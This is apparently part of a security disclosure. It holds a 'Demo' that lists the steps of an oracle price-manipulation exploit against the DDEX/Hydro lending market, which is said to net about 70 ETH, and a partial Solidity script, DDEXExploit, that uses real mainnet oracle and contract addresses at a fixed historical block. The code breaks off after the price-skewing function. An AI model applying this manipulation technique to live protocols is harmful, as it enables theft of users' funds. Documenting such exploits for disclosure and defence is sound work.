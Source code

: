 ### Demo

The following script will turn a profit of approximately 70 ETH by:

  1. Clearing out Eth2Dai's sell orders until the spread is large enough that the oracle rejects the price
  2. Buying more DAI from Uniswap, dropping the price from 213DAI/ETH to 13DAI/ETH
  3. Borrowing all the available ETH (~120) for a small amount of DAI (~2500)
  4. Selling the DAI we bought from Uniswap back to Uniswap
  5. Selling the DAI we bought from Eth2Dai back to Eth2Dai
  6. Resetting the oracle (don't want anyone else abusing our favorable rates)

    
    
    contract DDEXExploit is Script, Constants, TokenHelper {
        OracleLike private constant ETH_ORACLE = OracleLike(0x8984F1CFf1d614a7404b0cfE97C6fa9110b93Bd2);
        DaiOracleLike private constant DAI_ORACLE = DaiOracleLike(0xeB1f1A285fee2AB60D2910F2786E1D036E09EAA8);
        
        ERC20Like private constant HYDRO_ETH = ERC20Like(0x000000000000000000000000000000000000000E);
        HydroLike private constant HYDRO = HydroLike(0x241e82C79452F51fbfc89Fac6d912e021dB1a3B7);
        
        uint16 private constant ETHDAI_MARKET_ID = 1;
        
        uint private constant INITIAL_BALANCE = 25000 ether;
        
        function setup() public {
            name("ddex-exploit");
            blockNumber(8572000);
        }
        
        function run() public {
            begin("exploit")
                .withBalance(INITIAL_BALANCE)
                .first(this.checkRates)
                .then(this.skewRates)
                .then(this.checkRates)
                .then(this.steal)
                .then(this.cleanup)
                .then(this.checkProfits);
        }
        
        function checkRates() external {
            uint ethPrice = ETH_ORACLE.getPrice(HYDRO_ETH);
            uint daiPrice = DAI_ORACLE.getPrice(DAI);
            
            printf("eth=%.18u dai=%.18u\n", abi.encode(ethPrice, daiPrice));
        }
        
        uint private boughtFromMatchingMarket = 0;
        
        function skewRates() external {
            skewUniswapPrice();
            skewMatchingMarket();
            require(DAI_ORACLE.updatePrice());
        }
        
